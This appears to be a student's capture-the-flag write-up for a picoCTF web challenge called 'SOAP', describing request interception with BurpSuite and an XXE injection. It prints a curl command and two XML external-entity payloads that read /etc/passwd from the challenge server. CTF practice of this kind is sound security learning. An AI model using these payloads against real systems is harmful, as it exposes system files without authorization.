 # SOAP

**Flag:** ``

Approach

- step 1<br>
We can intercept the request using BurpSuite to modify it.

- step 2<br>
We can make use of an XXE injection to interfere with the site's processing of the XML data.


![](https://github.com/adityachawla005/cryptonite_taskphase_Aditya/raw/main/TP2/Web%20Exploitation/assets/SOAP.png)



What you learned through solving this challenge:
<br>
- We learned about XXE injection and the different payloads.

Other incorrect methods you tried:
<br>
- Tried inspecting cURL,didnt get response.

```
curl -X POST http://saturn.picoctf.net:54219/data \
     -H "Content-Type: application/xml" \
     -H "Accept-Language: en-GB,en;q=0.9" \
     -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36" \
     -H "Accept: */*" \
     -H "Origin: http://saturn.picoctf.net:54219" \
     -H "Referer: http://saturn.picoctf.net:54219/" \
     -H "Accept-Encoding: gzip, deflate, br" \
     -H "Connection: keep-alive" \
     -d '<?xml version="1.0" encoding="UTF-8"?>
          <!DOCTYPE data [
              <!ENTITY xxe SYSTEM "file:///etc/passwd">
          ]>
          <data>
              <ID>&xxe;</ID>
          </data>'
```


Payloads tried:
```
  - <!DOCTYPE data [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
  - <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```



References
<br>
-[XXE](https://portswigger.net/web-security/xxe)

